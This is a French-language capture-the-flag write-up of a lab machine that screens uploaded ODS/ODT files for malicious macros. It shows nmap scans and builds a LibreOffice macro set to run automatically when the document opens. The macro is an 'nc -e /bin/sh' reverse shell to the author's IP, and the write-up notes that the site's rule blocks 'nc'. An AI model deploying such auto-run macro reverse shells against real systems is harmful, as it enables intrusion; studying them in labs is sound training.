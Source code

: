```yaml
---
title: "Freedom"
description: pickle-fr.jpg
tags: ["Dans cet article je vous présente la machine que j'ai créée, une machine consacré au détéction de malware."]
---
```


# Scan Nmap

    └──╼ [★]$ nmap -p1-65535 192.168.0.22
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 10:37 CET
    Nmap scan report for 192.168.0.22
    Host is up (0.031s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE
    80/tcp open  http
    MAC Address: 08:00:27:A1:40:3C (Oracle VirtualBox virtual NIC)

    Nmap done: 1 IP address (1 host up) scanned in 5.32 seconds
    ─[10:35:38]─[192.168.0.17]─[root@oldprogrammer]─[~/Documents/wild_code_school/freedom]
    └──╼ [★]$ nmap -p80 -sC -sV 192.168.0.22
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 10:38 CET
    Nmap scan report for 192.168.0.22
    Host is up (0.00070s latency).

    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.38 ((Debian))
    |_http-server-header: Apache/2.4.38 (Debian)
    |_http-title: Office macro control
    MAC Address: 08:00:27:A1:40:3C (Oracle VirtualBox virtual NIC)

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.62 seconds
    

Le scan à trouvé uniquement le port `80` qui tourne sur Apache, et il semblerait que la version d'[Apache](https://www.apachelounge.com/Changelog-2.4.html) est plus ou moins récent.

# HTTP

Il s'avère que c'est un site qui `traite` et détecte si les fichiers de type `ODS` ou `ODT` peuvent contenir une `Macro` et essayer de détecté si il y a des choses suspicieux dans le `fichier`.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_11-27-26.png)

Donc, l'application semblerait que il n'accepte pas les autres extensions telles que `jpg`, `png`, `gif` etc.. Donc, j'ai décidé de prendre une `liste` complète des [extensions](https://github.com/dyne/file-extension-list) disponibles sur Linux, et essayer extension par extension avec `BurpSuite` pour trouver celui qui correspond pour l'application, et il s'avère que il a trouvé deux extensions assez intéréssantes, c'est `ODS` et `ODT`.

J'ai essayé de créer un fichier `ODS` avec LibreOffice `New > SpreadSheet` et sauvegarder. Il semblerait que l'application décompresse le fichier `ODS` avec ̀`unzip` et semble le mettre dans le dossier `/office/odt/[numéro_aléatoire]/`.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_11-45-09.png)

# Création Macro

Pour cela, nous allons créer une `macro` avec `LibreOffice` et activer les paramètres nécessaires pour que l'application traite notre fichier, donc allons dans la barre de recherche et lançons `LibreOffice`.

Créeons un nouveau un fichier avec `SpreadSheet` et sauvegarder ce fichier. Allons ensuite dans `Tools` > `Macros` > `Organize macros` et de prendre `Basic`. Choissisez le nom de votre de fichier, ensuite de cliquer sur `Standard` et enfin de créer le `Module` avec l'option `New` à droite, comme dans la capture ci-dessous.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_11-50-51.png)

Une fois le module ajouté, logiquement une page va s'ouvrir automatiquement où nous pouvons écrire dessus, donc utilisons la fonction `Shell` pour créer notre `payload` et sauvegardons cela.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_11-57-16.png)

Maintenant nous devons en sorte que lorsque l'utilisateur ouvrivra notre fichier `ODS`, il faut que la `Macro` soit exécute juste après automatiquement. Allons dans `Tools` > `Customize` > `Events` > cliquer sur `Open Document` et ensuite de cliquer sur `Macro` et de choisir votre macro.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_12-02-22.png)

# Reverse Shell

Créeons un listener sur notre machine avec `nc` sur le port `9001` (dans mon cas), et uploadons le fichier `ODS`. Il s'avère que j'ai pas réçu quelque chose de la machine cible, et il y a une chose très intéréssante sur ce que renvoie le site, il a detecté que `nc` était dangereux et donc à bloqué l'exécution du fichier `ODS`. Il s'avère que il a bloqué les strings `nc` dans le fichier `linux_rule_detect /office/odt/6217/Basic/Standard//script-lb.xml` et `linux_rule_detect /office/odt/6217/Basic/Standard//Module1.xml`.

![picture](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Screenshot_2021-01-09_12-08-08.png)

Pour cela, je vais décompresser le fichier `ODS` avec `unzip` et d'investiguer les fichiers `script-lb.xml` et `Module1.xml` dans le dossier `Standard`.

    ─[11:26:17]─[192.168.0.17]─[root@oldprogrammer]─[~/machine/freedom/ods]
    └──╼ [★]$ unzip test.ods             
    Archive:  test.ods                                                            
     extracting: mimetype                
      inflating: Basic/Standard/Module1.xml                                
      inflating: Basic/Standard/script-lb.xml  
      inflating: Basic/script-lc.xml                                              
       creating: Configurations2/toolbar/
       creating: Configurations2/floater/                                                                                                                       
       creating: Configurations2/menubar/                                         
       creating: Configurations2/popupmenu/ 
       creating: Configurations2/accelerator/                              
       creating: Configurations2/toolpanel/ 
       creating: Configurations2/progressbar/
       creating: Configurations2/statusbar/ 
       creating: Configurations2/images/Bitmaps/
      inflating: manifest.rdf            
      inflating: meta.xml                
      inflating: styles.xml              
      inflating: content.xml             
      inflating: settings.xml            
     extracting: Thumbnails/thumbnail.png   
      inflating: META-INF/manifest.xml   


Lorsque j'ouvre le fichier `Module1.xml`, il est logique que il détecte `nc` car c'est une commandé prevu, mais je n'arrive pas à voir le deuxième `nc`. Il s'agit en fait de `e(nc)onding` et l'application le détecte comme une string dangereux alors que pas du tout, c'est faux positif. 

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
    <script:module xmlns:script="http://openoffice.org/2000/script" script:name="Module1" script:language="StarBasic" script:moduleType="normal">REM  *****  BASIC  *****

    Sub Main
            Shell(&quot;nc -e /bin/sh 192.168.0.17 9001&quot;)
    End Sub
